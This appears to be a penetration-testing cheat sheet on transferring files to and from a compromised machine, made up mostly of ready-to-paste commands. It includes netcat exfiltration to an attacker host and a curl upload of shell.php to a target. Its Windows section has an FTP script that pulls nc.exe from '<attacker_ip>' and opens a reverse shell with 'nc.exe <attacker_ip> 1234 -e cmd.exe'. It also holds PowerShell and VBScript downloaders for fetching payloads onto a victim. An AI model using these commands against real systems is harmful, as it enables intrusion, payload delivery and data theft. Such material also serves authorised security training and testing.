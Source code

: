 ```yaml
---
description: First step after gaining access to a remote machine is to upload new tools.
---
```


# Transferring files

## Linux 

### Netcat

```text
on target run:
nc -lvp 443> transfer.txt
on attacker run:
nc $ip 443 < transfer.txt
```

or

```text
on attacker run:
nc -lvp 443> transfer.txt
on target run:
cat transfer.txt | nc $attackerip 443
```

The attack box can now connect to port 443 and download a file called transfer.txt

### ProTip

If u ever happen to have a shell of a UNIX system, and cannot find a way to upload anything, this is a lifesaver trick you can try:

```text
On local system:
cat filetoupload | base64 -w 0; echo
#double click on output to copy
On Target System:
echo <copiedContent> | base64 -d > filetoupload
```

### Windows: ftp, tftp, powershell script to echo and write.

### Download file with curl:

```text
curl -O http://host/file
```

### Upload a file with put:

```text
curl --upload-file shell.php --url http://$ip/shell.php --http1.0
```

```text
mkdir /tftp
atftpd --daemon --port 69 /tftp
cp /usr/share/windows-binaries/nc.exe /tftp/

nano /etc/default/atftpd # confirm that /tftp is the directory - otherwise it cant find the file
service atftpd restart
```

### Start a web server in your local machine serving files within the current folder:

```text
python -m SimpleHTTPServer
```

```text
python3 -m http.server
```

```text
php -S $ip:80
```

### Send files using different commands:

```text
nc -nlvp 4444 > incoming.exe
```

### As an FTP server, metasploit has built in one:

```text
use auxiliary/server/ftp
auxiliary/server/tftp
```

### Simple Fast python FTP server no login details necessary

```text
pip install pyftpdlib
python -m pyftpdlib -p 21
```

### SMB share server:

```text
python smbserver.py WORKSPACE /dir
```

### Curl put:

```text
curl -T 'file' 'http://$ip'
```

### Linux, mounting a samba share:

```text
smbclient -L 1.1.1.1 --no-pass
```

### Simple HTTP Server with Upload

```text
wget https://gist.githubusercontent.com/UniIsland/3346170/raw/059aca1d510c615df3d9fedafabac4d538ebe352/SimpleHTTPServerWithUpload.py ; chmod +x SimpleHTTPServerWithUpload.py; ./SimpleHTTPServerWithUpload.py
```

![Simple HTTP Server with Upload](.gitbook/assets/http-server-withupload.png)

## Windows

```text
https://github.com/egre55/ultimate-file-transfer-list?fbclid=IwAR1Bx3zzQTuBuD6XAK0aooaxfSGqk_MDLO8NniVMEnthfPIm4snmbuWjeYI
```

### Paste the following code to get nc in the victim:

```text
echo open <attacker_ip> 21> ftp.txt
echo USER offsec>> ftp.txt
echo ftp>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
ftp -v -n -s:ftp.txt
nc.exe <attacker_ip> 1234 -e cmd.exe
```

{% hint style="info" %}
make sure to start the FTP service on your kali  
service pure-ftpd start
{% endhint %}

### Echo up

[https://pentest.ws/e/mQx1MdxD\#tools/echo-up](https://pentest.ws/e/mQx1MdxD#tools/echo-up)

### Bounce port scanning

```text
nc $ip 21
220 Femitter FTP Server ready.
USER anonymous
331 Password required for anonymous.
PASS foo
230 User anonymous logged in.
PORT 127,0,0,1,0,80
200 Port command successful.
LIST
```

### Nice trick to share folders with RDP:

```text
rdesktop (ip) -r disk:share=/home/bayo/store
```

### With Powershell:

```text
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://YOURIP:8000/afile.exe','C:\Users\YOURUSER\Desktop\afile.exe')"
```

### Paste the following block in a command line to get a web client:

```text
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

#### Run with:

```text
cscript wget.vbs http://<attacker_ip>/nc.exe nc.exe
```

